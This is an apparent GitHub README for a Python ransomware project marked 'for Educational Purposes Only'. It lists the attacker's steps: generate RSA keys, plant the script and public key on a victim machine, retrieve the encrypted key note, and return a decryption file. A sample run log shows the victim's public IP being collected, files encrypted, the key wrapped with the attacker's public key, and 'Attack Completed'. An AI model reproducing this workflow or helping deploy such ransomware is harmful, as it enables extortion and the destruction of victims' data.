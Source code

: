 # Ransomware-in-Python

[![made-with-python](https://img.shields.io/badge/Made%20With-Python-success)](https://www.python.org/)

Ransomeware in Python (for Educational Purposes Only)

## How To Make This Work ?

![](https://raw.githubusercontent.com/whokilleddb/Ransomware-in-Python/main/Images/Ransomware.png)

-> First Generate A **RSA Key Pair** Using The [Key Generation Script](https://github.com/whokilleddb/Ransomware-in-Python/blob/main/keyGen.py)

-> Transfer the **Public Key (public.pem)** And The [Ransomware Script](https://github.com/whokilleddb/Ransomware-in-Python/blob/main/Ransomware.py)

-> Transfer Over The **EMAIL_Me.txt** Stored Under The Desktop Directory Of The Current User To The Attacker

-> Decrypt The **EMAIL_Me.txt** Using The **Private RSA Key (.private.pem)** Via The Same Key Generation Script](https://github.com/whokilleddb/Ransomware-in-Python/blob/main/keyGen.py)

-> A Text File Called **PUT_ME_ON_DESKTOP.txt** Is Generated 

-> Transfer Over **PUT_ME_ON_DESKTOP.txt** To The Victim And Place It In The Desktop Folder

-> BOOM ! The Files Are Decrypted Back !


### Sample Output On A Bodhi Linux :

```
bodhi@bodhi-32 ~/Ransomware> python3 Ransomware.py 
[+] Victim Is Running A Linux Environment
[+] System Root Found At : /home/bodhi
[+] Local Root Found At : /home/bodhi/Ransomware
[+] Public IP Of Victim : 202.142.107.55
[+] Generated Fernet Key As : b'UEoMPNynUBdfDAePrdXa7oYOM30Fd8dtD6X53EO0rIo='
[+] Created Crypter As : <cryptography.fernet.Fernet object at 0xb682958c>
[+] Crypter Object In Use : <cryptography.fernet.Fernet object at 0xb682958c>
/home/bodhi/Ransomware/test.txt is Being Encrypted 
/home/bodhi/Ransomware/test.txt Has Been Encrypted 
[+] Crypter Object In Use : <cryptography.fernet.Fernet object at 0xb682958c>
/home/bodhi/Ransomware/test.pdf is Being Encrypted 
/home/bodhi/Ransomware/test.pdf Has Been Encrypted 
[+] Wrote Fernet Key Into : fernet_key.txt
[+] Read Fernet Key From fernet_key.txt
[+] Read Public Key From public.pem As <_RSAobj @0xb701dd8c n(2048),e>
[+] Encrypted fernet_key.txt With Attacker's Public RSA Key
[+] Creted EMAIL_ME.txt at /home/bodhi/Desktop 
[+] Nullified Key as b'PJ(\x15\x05\xf2\x83\xfcC\x99\x98J\x1b\xf1t\xf5\xac\xa2\xd3(\xb7\xdbO\xe4\xc4\x9d\xf2\xa9\xf1\xbb\xcb\x17\xe5\xf4\'.H\x93\xae\xedsC\xb8\xd9\x94\x1a\xb8z\xfb\xdbb\xad\x9b\xfd\xf3|\xcar\xc3r\xf5-\xd8\xdd\xc4C[Vj\xc5f\xd4\x93\x85E"\x19\xf2\x9b\x89\xf7\xe7\x8c\xb6\xd8\xfack\x7fX\x81)L9\\<b\x1a\x0c\xce\x1e\xc3\x94\xfd\xd2\x1f\xc5\xee\x06\xd0\xdd\r\x83\x9e\xe071\xfa\x89\x83\x07\xf4\xc3VN\xdfU\x1e\xd0\n\xad["\xef\xd2aR\xe3\xad\x19\xa0\xd3"\x1f \\4\x0eCbs\xc1\xd9~\xb5\xca\x7f\xd7\xa6\x99~\x9e\xda\x17\xc4\r\xeb\xddT\xce\xb7R\xe2S\xf6\xa0\x18h\r\xf7\xde)\x83\xb6>\xe2\xee,\xe9\xf2\xb0\xb4\xedj\x19\xd1\x88\xf0\xe5j\xca\xf5\xcaa&\x0b\x87\xb08\xdc\xb7A\x1c\x9d2~\x11\xdc\x9f\x16M\xfd\xc18\x81f\xe4\xb0\x80\xbbG\xd8\xd3M\x04j\xf7d\'\xf3^\x05| \xdb\xf01\x92\xe6U\x86C\x8b,S\xc4'
[+] Nullified Crypter Object as None
 > Target Encrypted
 > Attack Completed
[-] Exception Rose As : 
[Errno 2] No such file or directory: '/home/bodhi/Desktop/PUT_ME_ON_DESKTOP.txt'

** (epiphany:4564): WARNING **: 01:00:39.767: webkit_web_context_set_web_process_count_limit is deprecated and does nothing. Limiting the number of web processes is no longer possible for security reasons

** (epiphany:4564): CRITICAL **: 01:00:39.769: void webkit_web_context_register_uri_scheme(WebKitWebContext*, const char*, WebKitURISchemeRequestCallback, gpointer, GDestroyNotify): assertion 'g_ascii_strcasecmp(scheme, "ftp") != 0' failed
Error sending IPC message: Broken pipe
[-] Exception Rose As : 
[Errno 2] No such file or directory: '/home/bodhi/Desktop/PUT_ME_ON_DESKTOP.txt'
[-] Exception Rose As : 
[Errno 2] No such file or directory: '/home/bodhi/Desktop/PUT_ME_ON_DESKTOP.txt'
[+] Read Key From /home/bodhi/Desktop/PUT_ME_ON_DESKTOP.txt As UEoMPNynUBdfDAePrdXa7oYOM30Fd8dtD6X53EO0rIo=
[+] New Cryptor Object Created As : <cryptography.fernet.Fernet object at 0xb71269ac>
[+] Crypter Object In Use : <cryptography.fernet.Fernet object at 0xb71269ac>
/home/bodhi/Ransomware/test.txt is Being Decrypted 
/home/bodhi/Ransomware/test.txt Has Been Decrypted 
[+] Crypter Object In Use : <cryptography.fernet.Fernet object at 0xb71269ac>
/home/bodhi/Ransomware/test.pdf is Being Decrypted 
/home/bodhi/Ransomware/test.pdf Has Been Decrypted 
```
